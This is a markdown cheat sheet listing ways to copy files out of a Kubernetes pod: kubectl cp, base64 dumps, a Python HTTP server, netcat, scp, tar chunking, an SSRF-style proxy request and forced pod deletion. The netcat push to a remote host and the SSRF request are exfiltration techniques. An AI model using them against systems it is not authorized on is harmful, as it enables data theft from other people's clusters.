 # File Transfer Methods from a Kubernetes Pod  ( ..Beta Edition.. )

Below are several techniques to copy files out of a Kubernetes container, from easiest (if you have `kubectl` access) to more “primitive” approaches when you only have a plain shell.

---

## 1. kubectl cp

**Prerequisite**: `kubectl` configured and you have `get`, `pods` and `exec` permissions.

```bash
# Syntax:
kubectl cp <namespace>/<pod>:/remote/path/to/file /local/path/to/file

# Example:
kubectl cp my-namespace/my-pod:/app/secret/data.bin ./data.bin
```

---

## 2. Base64 + Copy-Paste

**Prerequisite**: `base64` binary in the container.

1. **In the pod**:
   ```bash
   base64 /path/to/remote.file
   ```
2. **On your workstation**:  
   • Copy the entire Base64 blob into `file.b64`.  
   • Decode locally:
   ```bash
   base64 -d file.b64 > remote.file
   ```

---

## 2b. Python + Base64 (no `base64` tool)

**Prerequisite**: Python3 in the container.

1. **In the pod**:
   ```bash
   python3 - <<'EOF'
   import base64
   data = open("/path/to/remote.file","rb").read()
   print(base64.b64encode(data).decode())
   EOF
   ```
2. **On your workstation**:  
   • Copy the printed Base64 blob into `file.b64`.  
   • Decode:
   ```bash
   base64 -d file.b64 > remote.file
   ```

---

## 3. Python HTTP Server

**Prerequisite**: Python3 in the container; port forwarded or routable.

1. **In the pod**:
   ```bash
   cd /path/to/dir
   python3 -m http.server 8000
   ```
2. **On your host**:
   ```bash
   # If pod-IP is reachable:
   curl http://<pod-ip>:8000/remote.file -o remote.file

   # Or port-forward:
   kubectl port-forward pod/<pod-name> 8000:8000
   curl http://localhost:8000/remote.file -o remote.file
   ```

---

## 4. Netcat Transfer

**Prerequisite**: `nc` or `netcat` in both pod and host.

1. **On your host**:
   ```bash
   nc -lvp 9001 > remote.file
   ```
2. **In the pod**:
   ```bash
   nc <host-ip> 9001 < /path/to/remote.file
   ```

---

## 5. SCP over SSH

**Prerequisite**: SSH server running in container; valid credentials or key.

```bash
scp user@pod-ip:/path/to/remote.file ./remote.file
```

---

## 6. Tar + Base64 Chunking

**Prerequisite**: `tar` and `base64` in container.

1. **In the pod**:
   ```bash
   tar cf - /path/to/dir | base64
   ```
2. **On your host**:
   • Save output to `archive.b64`.  
   • Decode & extract:
   ```bash
   base64 -d archive.b64 | tar xf -
   ```

---

## 7. SSRF or Web-App Proxy

**Prerequisite**: The app provides an HTTP proxy endpoint.

```bash
curl -X POST http://app.example.com/proxy \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:8080/path/to/file"}'
```

---

## 8. Manual Deletion & Rolling Restart

**Prerequisite**: You can run K8s API calls from inside the pod (patch/rollout).

1. **Delete the running pod** to free up RWO PVC and hostPort:
   ```bash
   kubectl delete pod -n myns -l app=myapp
   ```
2. **Wait** for the new pod to spawn (with PVC mounted) then use any of the above methods.

---

